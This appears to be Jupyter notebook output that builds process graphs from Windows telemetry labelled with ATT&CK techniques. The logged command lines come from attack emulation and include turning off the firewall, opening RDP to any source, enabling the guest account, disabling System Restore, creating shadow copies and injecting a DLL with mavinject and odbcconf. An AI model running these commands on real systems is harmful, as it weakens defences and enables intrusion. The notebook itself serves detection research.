437310 : powershell.exe_-ExecutionPolicy_Bypass_-C_"wmic_/NAMESPACE:\\root\SecurityCenter2_PATH_AntiVirusProduct_GET_/value"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&9256
55019 : "C:\Windows\System32\Wbem\WMIC.exe"_/NAMESPACE:\\root\SecurityCenter2_PATH_AntiVirusProduct_GET_/value&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&11056
../graph_benign2/T1518.001_2dece965-37a0-4f70-a391-0f30e3331aba.png has been generated!
T1033_bd527b63-9f9e-46e0-9816-b8434d2b8989


<Figure size 432x288 with 0 Axes>



 84%|████████▎ | 138/165 [14:21<00:45,  1.70s/it]

Number of relations in the graph: 1
189412 : powershell.exe_-ExecutionPolicy_Bypass_-C_whoami&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&3292
483738 : "C:\Windows\system32\whoami.exe"&C:\Windows\system32\whoami.exe&whoami.exe&10132
../graph_benign2/T1033_bd527b63-9f9e-46e0-9816-b8434d2b8989.png has been generated!
T1003.003_9f73269695e54311dd61dc68940fb3e1


<Figure size 432x288 with 0 Axes>



 84%|████████▍ | 139/165 [14:23<00:43,  1.67s/it]

Number of relations in the graph: 1
370203 : cmd.exe_/C_wmic_shadowcopy_call_create_Volume=C:\&C:\Windows\system32\cmd.exe&cmd.exe&6776
282990 : wmic__shadowcopy_call_create_Volume=C:\&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&7820
../graph_benign2/T1003.003_9f73269695e54311dd61dc68940fb3e1.png has been generated!
T1047_09e0f9cf2eb803a1c35deeecf3665fad


<Figure size 432x288 with 0 Axes>



 85%|████████▍ | 140/165 [14:24<00:41,  1.65s/it]

Number of relations in the graph: 1
767876 : cmd.exe_/C_wmic_process_call_create_notepad.exe&C:\Windows\system32\cmd.exe&cmd.exe&1136
786743 : wmic__process_call_create_notepad.exe&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&9708
../graph_benign2/T1047_09e0f9cf2eb803a1c35deeecf3665fad.png has been generated!
T1047_6935e41353aa781bb723462d26114c44


<Figure size 432x288 with 0 Axes>



 85%|████████▌ | 141/165 [14:26<00:38,  1.61s/it]

Number of relations in the graph: 1
199131 : cmd.exe_/C_wmic_/node:"127.0.0.1"_service_where_(caption_like_"%Spooler%")&C:\Windows\system32\cmd.exe&cmd.exe&6760
93468 : wmic__/node:"127.0.0.1"_service_where_(caption_like_"%Spooler%")&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&660
../graph_benign2/T1047_6935e41353aa781bb723462d26114c44.png has been generated!
T1047_b0255b5120cbabc062d8d4510a142c3b


<Figure size 432x288 with 0 Axes>



 86%|████████▌ | 142/165 [14:28<00:41,  1.80s/it]

Number of relations in the graph: 1
490906 : cmd.exe_/C_wmic_useraccount_get_/ALL_/format:csv&C:\Windows\system32\cmd.exe&cmd.exe&10148
329148 : wmic__useraccount_get_/ALL_/format:csv&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&10492
../graph_benign2/T1047_b0255b5120cbabc062d8d4510a142c3b.png has been generated!
T1562.004_8d0a4585e7c4646185a912b14cd9cb46


<Figure size 432x288 with 0 Axes>



 87%|████████▋ | 143/165 [14:30<00:38,  1.75s/it]

Number of relations in the graph: 1
722137 : powershell.exe_-ExecutionPolicy_Bypass_-C_"netsh_advfirewall_firewall_add_rule_name=\"Open_Port_to_Any\"_dir=in_protocol=tcp_localport=3389_action=allow_profile=any"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5568
194513 : "C:\Windows\system32\netsh.exe"_advfirewall_firewall_add_rule_"name=Open_Port_to_Any"_dir=in_protocol=tcp_localport=3389_action=allow_profile=any&C:\Windows\system32\netsh.exe&netsh.exe&3404
../graph_benign2/T1562.004_8d0a4585e7c4646185a912b14cd9cb46.png has been generated!
T1018_ac20e592bc912bddff4d6b88289095f0


<Figure size 432x288 with 0 Axes>



 87%|████████▋ | 144/165 [14:31<00:34,  1.66s/it]

Number of relations in the graph: 1
157036 : cmd.exe_/C_nltest.exe_/dclist:%userdnsdomain%&C:\Windows\system32\cmd.exe&cmd.exe&2128
658217 : nltest.exe__/dclist:BLUETEAM.COM&C:\Windows\system32\nltest.exe&nltest.exe&5768
../graph_benign2/T1018_ac20e592bc912bddff4d6b88289095f0.png has been generated!
T1201_38f6f0e50a6b196140ec40d3dc9cc9e6


<Figure size 432x288 with 0 Axes>



 88%|████████▊ | 145/165 [14:33<00:32,  1.63s/it]

Number of relations in the graph: 1
227731 : cmd.exe_/C_net_accounts_/domain&C:\Windows\system32\cmd.exe&cmd.exe&11112
92779 : net__accounts_/domain&C:\Windows\system32\net.exe&net.exe&2172
../graph_benign2/T1201_38f6f0e50a6b196140ec40d3dc9cc9e6.png has been generated!
T1016_14a21534-350f-4d83-9dd7-3c56b93a0c17


<Figure size 432x288 with 0 Axes>



 88%|████████▊ | 146/165 [14:34<00:30,  1.61s/it]

Number of relations in the graph: 1
138019 : powershell.exe_-ExecutionPolicy_Bypass_-C_"nbtstat_-n"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1420
149401 : "C:\Windows\system32\nbtstat.exe"_-n&C:\Windows\system32\nbtstat.exe&nbtstat.exe&3616
../graph_benign2/T1016_14a21534-350f-4d83-9dd7-3c56b93a0c17.png has been generated!
T1562.004_5b93df032e230056c21a3e57334f77d1


<Figure size 432x288 with 0 Axes>



 89%|████████▉ | 147/165 [14:36<00:28,  1.57s/it]

Number of relations in the graph: 1
321518 : cmd.exe_/C_netsh_advfirewall_set_currentprofile_state_off&C:\Windows\system32\cmd.exe&cmd.exe&8612
663140 : netsh__advfirewall_set_currentprofile_state_off&C:\Windows\system32\netsh.exe&netsh.exe&10588
../graph_benign2/T1562.004_5b93df032e230056c21a3e57334f77d1.png has been generated!
T1047_ac2764f7a67a9ce92b54e8e59b361838


<Figure size 432x288 with 0 Axes>



 90%|████████▉ | 148/165 [14:37<00:25,  1.49s/it]

Number of relations in the graph: 1
397191 : cmd.exe_/C_wmic_process_get_caption,executablepath,commandline_/format:csv&C:\Windows\system32\cmd.exe&cmd.exe&10376
303536 : wmic__process_get_caption,executablepath,commandline_/format:csv&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&3360
../graph_benign2/T1047_ac2764f7a67a9ce92b54e8e59b361838.png has been generated!
T1018_a44bb43474728496276d5d73aa14588f


<Figure size 432x288 with 0 Axes>



 90%|█████████ | 149/165 [14:38<00:24,  1.50s/it]

Number of relations in the graph: 1
611078 : cmd.exe_/C_arp_-a&C:\Windows\system32\cmd.exe&cmd.exe&7408
201616 : arp__-a&C:\Windows\system32\ARP.EXE&ARP.EXE&8764
../graph_benign2/T1018_a44bb43474728496276d5d73aa14588f.png has been generated!
T1003.003_f049b89533298c2d6cd37a940248b219


<Figure size 432x288 with 0 Axes>



 91%|█████████ | 150/165 [14:40<00:22,  1.50s/it]

Number of relations in the graph: 1
54935 : cmd.exe_/C_wmic_/node:"localhost"_shadowcopy_call_create_Volume=C:\&C:\Windows\system32\cmd.exe&cmd.exe&8708
289759 : wmic__/node:"localhost"_shadowcopy_call_create_Volume=C:\&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&7152
../graph_benign2/T1003.003_f049b89533298c2d6cd37a940248b219.png has been generated!
T1047_ac122553ab4426ea3362bb4a97d31bfd


<Figure size 432x288 with 0 Axes>



 92%|█████████▏| 151/165 [14:42<00:21,  1.53s/it]

Number of relations in the graph: 1
703189 : cmd.exe_/C_wmic_/node:"127.0.0.1"_product_where_"name_like_'Tightvnc%%'"_call_uninstall&C:\Windows\system32\cmd.exe&cmd.exe&5192
85270 : wmic__/node:"127.0.0.1"_product_where_"name_like_'Tightvnc%%'"_call_uninstall&C:\Windows\System32\Wbem\WMIC.exe&WMIC.exe&8796
../graph_benign2/T1047_ac122553ab4426ea3362bb4a97d31bfd.png has been generated!
T1055.002_e5bcefee-262d-4568-a261-e8a20855ec81


<Figure size 432x288 with 0 Axes>



 92%|█████████▏| 152/165 [14:43<00:19,  1.52s/it]

Number of relations in the graph: 1
157277 : powershell.exe_-ExecutionPolicy_Bypass_-C_"$explorer_=_Get-Process_-Name_explorer;mavinject.exe_$explorer.id_C:\Users\Public\sandcat.dll"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&1336
753159 : "C:\Windows\system32\mavinject.exe"_6068_C:\Users\Public\sandcat.dll&C:\Windows\system32\mavinject.exe&mavinject.exe&5468
../graph_benign2/T1055.002_e5bcefee-262d-4568-a261-e8a20855ec81.png has been generated!
T1055.001_a74bc239-a196-4f7e-8d5c-fe8c0266071c


<Figure size 432x288 with 0 Axes>



 93%|█████████▎| 153/165 [14:44<00:17,  1.46s/it]

Number of relations in the graph: 1
9863 : powershell.exe_-ExecutionPolicy_Bypass_-C_"odbcconf.exe_/S_/A_{REGSVR_\"C:\Users\Public\sandcat.dll\"}"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&5456
103498 : "C:\Windows\system32\odbcconf.exe"_/S_/A_-encodedCommand_UgBFAEcAUwBWAFIAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwAcwBhAG4AZABjAGEAdAAuAGQAbABsACIA_-inputFormat_xml_-outputFormat_text&C:\Windows\system32\odbcconf.exe&odbcconf.exe&6268
../graph_benign2/T1055.001_a74bc239-a196-4f7e-8d5c-fe8c0266071c.png has been generated!
T1482_cfb61005899996469ae3023796792ca5


<Figure size 432x288 with 0 Axes>



 93%|█████████▎| 154/165 [14:46<00:16,  1.47s/it]

Number of relations in the graph: 1
775891 : cmd.exe_/C_nltest_/domain_trusts&C:\Windows\system32\cmd.exe&cmd.exe&7380
726404 : nltest__/domain_trusts&C:\Windows\system32\nltest.exe&nltest.exe&11004
../graph_benign2/T1482_cfb61005899996469ae3023796792ca5.png has been generated!
T1201_57296a2ddbeb7423c05feef2fe972111


<Figure size 432x288 with 0 Axes>



 94%|█████████▍| 155/165 [14:47<00:14,  1.48s/it]

Number of relations in the graph: 1
222568 : cmd.exe_/C_net_accounts&C:\Windows\system32\cmd.exe&cmd.exe&2328
68443 : net__accounts&C:\Windows\system32\net.exe&net.exe&5128
../graph_benign2/T1201_57296a2ddbeb7423c05feef2fe972111.png has been generated!
T1078.001_d0ca00832890baa1d42322cf70fcab1a


<Figure size 432x288 with 0 Axes>



 95%|█████████▍| 156/165 [14:49<00:13,  1.49s/it]

Number of relations in the graph: 1
710942 : cmd.exe_/C_net_user_guest_/active:yes&C:\Windows\system32\cmd.exe&cmd.exe&604
150087 : net__user_guest_/active:yes&C:\Windows\system32\net.exe&net.exe&6440
../graph_benign2/T1078.001_d0ca00832890baa1d42322cf70fcab1a.png has been generated!
T1217_f7a0f7d704aa52a764d9d1bee81e65d6


<Figure size 432x288 with 0 Axes>



 95%|█████████▌| 157/165 [14:50<00:11,  1.49s/it]

Number of relations in the graph: 1
603947 : cmd.exe_/C_where_/R_C:\Users\_places.sqlite&C:\Windows\system32\cmd.exe&cmd.exe&9552
187781 : where__/R_C:\Users\_places.sqlite&C:\Windows\system32\where.exe&where.exe&6556
../graph_benign2/T1217_f7a0f7d704aa52a764d9d1bee81e65d6.png has been generated!
T1490_2d53d6fabd39bf9c70b0dfcdfbbc926d


<Figure size 432x288 with 0 Axes>



 96%|█████████▌| 158/165 [14:52<00:10,  1.49s/it]

Number of relations in the graph: 1
332710 : cmd.exe_/C_schtasks.exe_/Change_/TN_"\Microsoft\Windows\SystemRestore\SR"_/disable&C:\Windows\system32\cmd.exe&cmd.exe&1368
186435 : schtasks.exe__/Change_/TN_"\Microsoft\Windows\SystemRestore\SR"_/disable&C:\Windows\system32\schtasks.exe&schtasks.exe&4200
../graph_benign2/T1490_2d53d6fabd39bf9c70b0dfcdfbbc926d.png has been generated!
T1016_71b3d2945679566b9d94d8cb11df4b70


<Figure size 432x288 with 0 Axes>



 96%|█████████▋| 159/165 [14:53<00:08,  1.44s/it]

Number of relations in the graph: 1
196991 : cmd.exe_/C_netsh_advfirewall_firewall_show_rule_name=all&C:\Windows\system32\cmd.exe&cmd.exe&8792
786105 : netsh__advfirewall_firewall_show_rule_name=all&C:\Windows\system32\netsh.exe&netsh.exe&3896
../graph_benign2/T1016_71b3d2945679566b9d94d8cb11df4b70.png has been generated!
T1499_2fe2d5e6-7b06-4fc0-bf71-6966a1226731


<Figure size 432x288 with 0 Axes>



 97%|█████████▋| 160/165 [14:55<00:07,  1.42s/it]

Number of relations in the graph: 1
253734 : powershell.exe_-ExecutionPolicy_Bypass_-C_".\wifi.ps1_-Off"&C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe&powershell.exe&7988
165095 : "C:\Windows\system32\netsh.exe"_interface_set_interface_name=Wi-Fi_admin=DISABLED&C:\Windows\system32\netsh.exe&netsh.exe&8260
../graph_benign2/T1499_2fe2d5e6-7b06-4fc0-bf71-6966a1226731.png has been generated!
T1018_26c8b8b5-7b5b-4de1-a128-7d37fb14f517


<Figure size 432x288 with 0 Axes>

